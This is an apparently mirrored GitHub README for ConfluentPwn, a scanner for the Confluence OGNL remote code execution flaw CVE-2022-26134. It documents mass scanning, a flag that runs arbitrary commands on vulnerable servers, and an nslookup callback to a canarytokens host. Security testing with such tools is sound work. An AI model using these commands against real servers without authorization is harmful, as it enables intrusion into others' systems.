 # ConfluentPwn

Atlassian confluence unauthenticated ONGL injection remote code execution scanner (CVE-2022-26134).

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/redhuntlabs](https://github.com/redhuntlabs) |
| Url      | [https://github.com/redhuntlabs/ConfluentPwn](https://github.com/redhuntlabs/ConfluentPwn)                                               |
| Stars    | 10                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# ConfluentPwn
Confluence pre-auth ONGL injection remote code execution scanner (CVE-2022-26134).

## Usage
The below GIF shows a demo usage of the tool:

![tooldemo](https://user-images.githubusercontent.com/39941993/172548712-6bf81497-99ec-48c2-b076-d8a472c85a1f.gif)


Here is the help output of the tool:
```
$ ./cfscan -h

  +-------------------------------+
  |    C O N F L U E N T P W N    |
  +-------------------------------+

[+] ConfluentPwn by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Pinaki Mondal (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr.

Usage:
  -cmd string
        Command to execute on a vulnerable confluence server. (default "id")
  -file string
        Specify a file containing list of hosts to scan.
  -output string
        Output filepath to write the scan results into. (default "cfpwn-results.csv")
  -regex string
        Regex to match the response header for the command executed.
  -threads int
        Number of threads to use while scanning. (default 20)
  -timeout int
        HTTP timeout in seconds. (default 5)
  -user-agent string
        Custom user-agent string to use. (default "Mozilla/5.0 (ConfluentPwn) Chrome/95.0.4638.69 Safari/537.36")

Examples:
  ./cfscan 1.2.3.4:80 1.1.1.1:8080
  ./cfscan -file urls.txt
  ./cfscan -cmd 'nslookup xxxxxxxxxxxxxxxxx.canarytokens.com 1.1.1.1:80'
  ./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```

### Specifying targets
Targets can be specified in two ways:
- Specifying URLs directly via command line.
    ```
    ./cfscan target1 target2 ...
    ```
- Specifying a file containing a list of URLs to scan using the `-file` argument.
    ```
    ./cfscan -file targets.txt
    ```

### Concurrency, timeouts and user-agents
Maximum number of concurrent targets to be processed can be controlled using the `-threads` argument. The default concurrency value is 20.

HTTP timeout value in seconds can be can be specified using the `-timeout` argument. The default timeout is set to 5 seconds.

Custom user-agent can be specified using the `-user-agent` flag, in-case the user wants to track UA strings in their logs.

### Output
The output generated is written to a CSV file, the destination of which can be specified using the `-output` flag. The default output file generated is `cfscan-results.csv`.

The output contains 4 columns:
- target
- confluence version
- vulnerability status
- command output

### Command Specification & Matching
The command to be run on a vulnerable server can be specified using the `-cmd` argument. A regular expression is specified to match the output of the command -- which can be mentioned using the `-regex` flag.

The default command which is run is the `id`, and the regex used to match the output of the command is `uid=\d+?\(\w+?\)\s*?gid=\d+?\(\w+?\)\s*groups=\d+?\(\w+?\)`.

Using the flags together looks like:
```
./cfscan -cmd 'id' -regex 'uid=\d+?\(\w+?\)\s*?gid=\d+?\(\w+?\)\s*groups=\d+?\(\w+?\)' https://1.1.1.1
./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```

### Setting up a Test Environment
If you'd like to test out the tool or the vulnerability in general, then you can refer to this: [https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2022-26134).

The installation process is quite simple, the below commands do the job:
```
$ mkdir confluentpwn && cd confluentpwn && wget https://raw.githubusercontent.com/vulhub/vulhub/master/confluence/CVE-2022-26134/docker-compose.yml
$ docker-compose up -d
```
The app should now be available at `http://localhost:8090`.

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [vulhub](https://github.com/vulhub/vulhub) for providing the docker test image.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**



## Get the content

```
git clone https://github.com/redhuntlabs/ConfluentPwn
cd ConfluentPwn
```

{% embed url="https://github.com/redhuntlabs/ConfluentPwn" %}

<figure><img src="https://avatars.githubusercontent.com/u/36505047?v=4" alt=""><figcaption><p>redhuntlabs</p></figcaption></figure>
